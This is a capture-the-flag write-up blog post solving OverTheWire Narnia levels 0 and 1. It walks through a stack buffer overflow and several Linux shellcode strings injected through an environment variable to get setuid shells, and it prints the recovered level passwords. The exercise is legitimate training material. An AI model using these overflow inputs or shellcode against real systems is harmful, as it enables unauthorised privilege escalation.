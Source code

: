 ## OverTheWire: Narnia
After the frusration and lack of success in the Oman Quals CTF, I've decided to redirect my attention to some of the OverTheWire challenges. I've already completed both the Bandit and Leviathon series of challenges, but will not be doing write-ups on those due to the amount of resources already out there.

### Narnia0
After logging in with the username and password `narnia0` and reading the Welcome banner. It is discovered that the passwords for each level are stored in /etc/narnia_pass/narniaX and the programs to be exploited are in /narnia/ (as well as the source code for said programs).

After looking at the code for narnia0.c, we can see that we need the 'val' variable to be equal to 0xdeadbeef which can be done with a buffer overflow since the 'buf' variable that is read-in from user input is just before the val variable on the stack. Also, because the executable narnia0 has the setuid bit set (s in the owner execute spot in a long listing) the shell that is run in the program will have the privileges of the owner, i.e. narnia1, and allow us to view that users password file.

```
int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

By entering `(python -c 'print "A"*20 + "\xef\xbe\xad\xde"*10')` and piping it into the file we don't get the "WAY OFF!!!!" that we normally would but we also don't get the shell that we expect. So we know it works (kind of) but why are we using those commands. Well '-c' is used to tell python that the following information will be command-line input. Then the 20 A's are used to take up the space in the 'buf' variable and finally we have the 0xdeadbeef in reverse byte-order to account for how the bytes are stored in memory (most PCs are little-endian, i.e. the byte with the littlest value is stored first, this can be checked with the command `lscpu | grep "Byte Order"`).

Now we just have to add something to leave the input open after our code is run (after some research, I found the best way to do this was via the `cat` command).

So the full series of commands is as follows:
```
narnia0@narnia:~$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ▒
val: 0xdeadbeef
whoami
narnia1
```
And we can use this to find our flag:
```
cat /etc/narnia_pass/narnia1
efeidiedae
```

### Narnia1
At first, I thought this one would be easier than the previous challenge. As you can see from the code below, the program attempts to execute code located at the EGG environment variable. Environment Variables are globally accessable variablesfor sharing information between different applications and processes (they can be viewed by entering the `env` command). Since this program runs as Narnia2 (it has a higher privelege as in the last challenge), we want to get the program to open a shell so we can view the Narnia2 password.

```
int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

I initially attempted to simply set $EGG to '/bin/sh' (the $ symbol is used when accessing a global variable). I ran the program and got: `Trying to execute EGG! Segmentation fault`, so that didn't work. It's just displaying the string instead of executing the code and opening the shell. What we need is shellcode!

Shellcode is made up of commands used as the payload for exploitation, named so because of its ability to open a command shell. My first attempt was using the shellcode from **Hacking: The Art of Exploitation** but this attempt didn't work either. After some research, I discovered that my problem was due to the fact that shellcode must be tailored to the machine it is running on. To check our target system, we enter `lscpu`. From here we discover the following:
```
Architecture:          x86_64
CPU op-mode(s):        32-bit, 64-bit
Byte Order:            Little Endian
CPU(s):                2
On-line CPU(s) list:   0,1
Thread(s) per core:    1
Core(s) per socket:    2
Socket(s):             1
Vendor ID:             GenuineIntel
CPU family:            15
Model:                 6
Model name:            Common KVM processor
Stepping:              1
CPU MHz:               3074.244
BogoMIPS:              6148.48
Hypervisor vendor:     KVM
Virtualization type:   full
L1d cache:             32K
L1i cache:             32K
L2 cache:              4096K
L3 cache:              16384K
```

We can see that our target computer is being run on a Virtual Machine, is 64-bit, and has an Intel processor (and we already know it's running Linux due to it's file system). So after searching for Linux x86_64 shellcode, I found some and placed it in the EGG variable.
```
narnia1@narnia:~$ export EGG=$(echo -en "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")
narnia1@narnia:~$ echo $EGG
1▒H▒ѝ▒▒Ќ▒▒H▒▒ST_▒RWT^▒;
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
Segmentation fault
```
That didn't work, so I tried with some different shellcode, and then I tried again, and again, and again...
```
narnia1@narnia:~$ export EGG=$(echo -en "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
Illegal instruction
narnia1@narnia:~$ export EGG=$(echo -en "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
Segmentation fault
narnia1@narnia:~$ export EGG=$(echo -en "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
narnia1@narnia:~$ export EGG=$(echo -en "\xeb\x18\x5e\x31\xc0\x88\x46\x09\x89\x76\x0a\x89\x46\x0e\xb0\x0b\x89\xf3\x8d\x4e\x0a\x8d\x56\x0e\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
nairiepecu
```
...until I finally got it. Whew! That took a lot longer than expected.

I hope this helped to explain some basic computer exploitation principles in regards to environment variables. As for shellcode, I'll do some reading up on that and provide some better explanations in the future.
